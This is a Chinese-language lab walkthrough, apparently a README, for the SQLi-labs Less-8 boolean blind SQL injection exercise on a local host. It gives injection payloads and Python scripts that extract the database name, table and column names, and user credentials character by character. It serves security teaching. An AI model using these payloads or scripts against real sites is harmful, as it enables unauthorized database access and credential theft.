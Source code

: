 ## 练习开始
首先打开http://127.0.0.1/Less-8/?id=1

less-8是单引号 的盲注

![](README/EC7BD628-0286-492F-B623-AFEFA5B4238C.png)

核心语句是
```sql
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

问题是这边已经不继续爆错了

测试用的payload
```
' and 's'='s' --+      返回正确内容
' and 's'='x' --+      返回错误的内容
```

1. 判断数据库长度
```
http://127.0.0.1/Less-8/?id=1' and length(database())=8 --+
```
当数值为8的时候返回正确
![](README/B3A3DE95-E614-4191-92C9-F84E79478EBE.png)

当数值为9的时候返回错误的信息
```
http://127.0.0.1/Less-8/?id=1' and length(database())=9 -- 
```

![](README/9B185AC5-857B-4A41-B477-ADEDEC769B15.png)

2. 判断数据库的名字
现在需要用到mysql自带的两个函数,ascii,substr
ascii函数的作用是将单一字符转换成ascii码的形式，而可打印字符 的范围是ascII码33--127
substr(string, index, num):是用来进行偏移转换的，从index字符开始，偏移num个字符，mysql中的index是从1开始的，而hibernate中的index是从0开始的。
database()是mysql自带的函数用来显示当前web使用的数据库
基本的语法就是
```
http://127.0.0.1/Less-8/?id=1' and ascii(substr(database(), 1,1))=108 -- 
```


![](README/3232479A-2E3B-4AE6-B8EE-E923DE1D3781.png)

用Python代码
```python

import requests

char_list = []

for i in range(1,9): #前期的测试已经证明数据库名字是8位字符
    for j in range(33, 128):
        burp0_url = "http://127.0.0.1:80/Less-8/?id=1%27%20and%20ascii(substr(database(),%20{index},1))={num}%20--+".format(index=i, num=j)
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:61.0) Gecko/20100101 Firefox/61.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
        response = requests.get(burp0_url, headers=burp0_headers)

        if "You are in" in response.text:
            char_list.append(chr(j))
            break

print("".join(char_list))

```

![](README/8D6C46BB-0ED5-443B-9580-C3282DB98C9C.png)

3. 判断表的数量
```shell
http://127.0.0.1/Less-8/?id=1' and (select count(*) from information_schema.tables where TABLE_SCHEMA='security')=4 --+
```


![](README/D6808B89-65CA-43FC-9C18-0036B0F12260.png)
表的数量是4

4. 判读四个表的名字长度
示例
```
http://127.0.0.1/Less-8/?id=1' and (select length(table_name) from information_schema.tables where TABLE_SCHEMA='security' limit 0,1)=4 --+
```


代码
```python
import requests

for i in range(0, 4):

    for j in range(1, 20):

        burp0_url = "http://127.0.0.1:80/Less-8/?id=1%27%20and%20(select%20length(table_name)%20from%20information_schema.tables%20where%20TABLE_SCHEMA=%27security%27%20limit%20{index},1)={num}%20--+".format(index=i, num=j)
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:61.0) Gecko/20100101 Firefox/61.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
        response = requests.get(burp0_url, headers=burp0_headers)

        if "You are in" in response.text:
            print(i, j)
            break
```


![](README/43BA1657-D16D-425E-B528-0A72F77A1CEA.png)

5. 判断表的名字
demo

```
http://127.0.0.1/Less-8/?id=1' and (ascii(substr((select table_name from information_schema.tables where TABLE_SCHEMA='security' limit 0,1),1,1)))=101 -- 
```

最后代码
```python
import requests

for i in range(0, 4):
    flag_list = []
    
    for j in range(1, 9):
        for k in range(33,128):

            burp0_url = "http://127.0.0.1:80/Less-8/?id=1%27%20and%20(ascii(substr((select%20table_name%20%20from%20information_schema.tables%20where%20TABLE_SCHEMA=%27security%27%20limit%20{index1},1),{index2},1)))={num}%20--+".format(index1=i, index2=j, num=k)
            burp0_headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:61.0) Gecko/20100101 Firefox/61.0",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}

            response = requests.get(burp0_url, headers=burp0_headers)


            if "You are in" in response.text:

                flag_list.append(chr(k))
                break
    print("".join(flag_list))
```



![](README/FEC715DB-36CA-44EA-9BD9-0E204C91379A.png)

5. 判断数据库security的表users中的列的数量
```
http://127.0.0.1/Less-8/?id=1' and (select count(*) from information_schema.columns where TABLE_SCHEMA='security' and TABLE_NAME='users')=3 --+
```


![](README/5CE095B6-E659-441C-B00C-D42F402AF27E.png)

6. 判断columns的长度
```
http://127.0.0.1/Less-8/?id=1' and (select length(COLUMN_NAME) from information_schema.columns where TABLE_SCHEMA='security' and TABLE_NAME='users' limit 0,1)=3 --+
```


```python
import requests


for i in range(0,3):
    for j in range(1,10):
        burp0_url = "http://127.0.0.1:80/Less-8/?id=1%27%20and%20(select%20length(COLUMN_NAME)%20from%20information_schema.columns%20where%20TABLE_SCHEMA=%27security%27%20and%20TABLE_NAME=%27users%27%20limit%20{index},1)={num}%20--+".format(index=i, num=j)
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:62.0) Gecko/20100101 Firefox/62.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
        response = requests.get(burp0_url, headers=burp0_headers)

        if "You are in" in response.text:
            print(i, j)
            break
```


![](README/7D113DB5-C18A-4E24-95B2-C249D39833DB.png)

7. 判断列的名字

```
http://127.0.0.1/Less-8/?id=1' and (ascii(substr((select column_name from information_schema.columns where TABLE_SCHEMA='security' and table_name='users' limit 0,1),1,1)))=101 --+
```

```python
import requests


for i in range(0,3):

    flag_list = []

    for j in range(1,10):
        for k in range(33, 128):

            burp0_url = "http://127.0.0.1:80/Less-8/?id=1%27%20and%20(ascii(substr((select%20column_name%20from%20information_schema.columns%20where%20TABLE_SCHEMA=%27security%27%20and%20table_name=%27users%27%20limit%20{index1},1),{index2},1)))={num}%20--+".format(index1=i, index2=j, num=k)
            burp0_headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:62.0) Gecko/20100101 Firefox/62.0",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
            response = requests.get(burp0_url, headers=burp0_headers)

            if "You are in" in response.text:

                flag_list.append(chr(k))
                break

    print("".join(flag_list))
```


![](README/ED90FE5A-40CA-44B0-9FB4-3FA8226A8B8F.png)

8. last信息
判断列的数量
```
http://127.0.0.1/Less-8/?id=1' and (select count(id) from users)=8 --+
```

![](README/8A2ECCE3-B5B9-45E0-9577-FCF5D22F17E3.png)
八个内容

判断内容的长度

```
http://127.0.0.1/Less-8/?id=1' and (select length(username) from users limit 0,1)=1 --+
```

![](README/5DD3C2EA-6C73-4027-8168-50AAEC9F54D2.png)


判断username和password列八个字断的长度
```python
import requests

column_name = ["username", "password"]


for col in column_name:
    print(col)
    for  i in range(0,8):
        for j in range(1, 20):
            burp0_url = "http://127.0.0.1:80/Less-8/?id=1%27%20and%20(select%20length({col})%20from%20users%20limit%20{index},1)={num}%20--+".format(col=col,index=i, num=j)
            burp0_headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:62.0) Gecko/20100101 Firefox/62.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
            response = requests.get(burp0_url, headers=burp0_headers)

            if "You are in" in response.text:

                print(i, j)
                break
```


![](README/D6657435-58AA-4411-B2C4-C6B1D2DCD972.png)


最后判断内容
```
http://127.0.0.1/Less-8/?id=1' and ascii(substr((select username from users limit 0,1),1,1))=68 --+
```

![](README/5CD0C247-7348-49F7-ADFE-479ADAAFF1FC.png)


```python
import requests


for i in range(1,5):
    for j in range(33,128):
        burp0_url = "http://127.0.0.1:80/Less-8/?id=1%27%20and%20ascii(substr((select%20username%20from%20users%20limit%200,1),{index},1))={num}%20--+".format(index=i, num=j)
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:62.0) Gecko/20100101 Firefox/62.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
        response = requests.get(burp0_url, headers=burp0_headers)

        if "You are in" in response.text:
            print(chr(j))
            break

```


![](README/BDC6125B-2838-4023-8798-8DF2EA125158.png)